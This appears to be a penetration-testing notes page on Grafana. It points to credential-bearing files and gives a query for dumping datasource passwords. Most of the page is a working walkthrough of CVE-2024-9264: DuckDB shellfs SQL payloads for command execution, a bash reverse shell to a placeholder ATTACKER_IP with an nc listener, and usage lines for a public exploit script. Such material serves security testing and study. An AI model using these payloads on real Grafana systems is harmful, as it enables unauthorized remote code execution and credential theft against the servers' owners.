 # Grafana

## Interesting stuff

- The file **`/etc/grafana/grafana.ini`** can contain sensitive information such as **admin** **username** and **password.**
- Inside the platform you could **invite people** or **generate API keys** (might need to be admin)
- You could check which plugins are installed (or even install new)
- By default it uses **SQLite3** database in **`/var/lib/grafana/grafana.db`**
  - `select user,password,database from data_source;`

---

## CVE-2024-9264 – SQL Expressions (DuckDB shellfs) post-auth RCE / LFI

Grafana’s experimental SQL Expressions feature can evaluate DuckDB queries that embed user-controlled text. Insufficient sanitization allows attackers to chain DuckDB statements and load the community extension shellfs, which exposes shell commands via pipe-backed virtual files.

Impact
- Any authenticated user with VIEWER or higher can get code execution as the Grafana OS user (often grafana; sometimes root inside a container) or perform local file reads.
- Preconditions commonly met in real deployments:
  - SQL Expressions enabled: `expressions.enabled = true`
  - `duckdb` binary present in PATH on the server

Quick checks
- In the UI/API, browse Admin settings (Swagger: `/swagger-ui`, endpoint `/api/admin/settings`) to confirm:
  - `expressions.enabled` is true
  - Optional: version (e.g., v11.0.0 vulnerable), datasource types, etc.
- Shell on host: `which duckdb` must resolve for the exploit path below.

Manual query pattern using DuckDB + shellfs
- Abuse flow (2 queries):
  1) Install and load the shellfs extension, run a command, redirect combined output to a temp file via pipe
  2) Read back the temp file using `read_blob`

Example SQL Expressions payloads that get passed to DuckDB:
```sql
-- 1) Prepare shellfs and run command
SELECT 1; INSTALL shellfs FROM community; LOAD shellfs;
SELECT * FROM read_csv('CMD >/tmp/grafana_cmd_output 2>&1 |');
-- 2) Read the output back
SELECT content FROM read_blob('/tmp/grafana_cmd_output');
```
Replace CMD with your desired command. For file-read (LFI) you can instead use DuckDB file functions to read local files.

One-liner reverse shell example
```bash
bash -c "bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1"
```
Embed that as CMD in the first query while you have a listener: `nc -lnvp 443`.

Automated PoC
- Public PoC (built on cfreal’s ten framework):
  - [https://github.com/nollium/CVE-2024-9264](https://github.com/nollium/CVE-2024-9264)

Usage example
```bash
# Confirm execution context and UID
python3 CVE-2024-9264.py -u <USER> -p <PASS> -c id http://grafana.target
# Launch a reverse shell
python3 CVE-2024-9264.py -u <USER> -p <PASS> \
  -c 'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1"' \
  http://grafana.target
```
If output shows `uid=0(root)`, Grafana is running as root (common inside some containers).

## References

- [Grafana Advisory – CVE-2024-9264 (SQL Expressions RCE/LFI)](https://grafana.com/security/security-advisories/cve-2024-9264/)
- [DuckDB shellfs community extension](https://duckdb.org/community_extensions/extensions/shellfs.html)
- [nollium/CVE-2024-9264 PoC](https://github.com/nollium/CVE-2024-9264)
- [cfreal/ten framework](https://github.com/cfreal/ten)


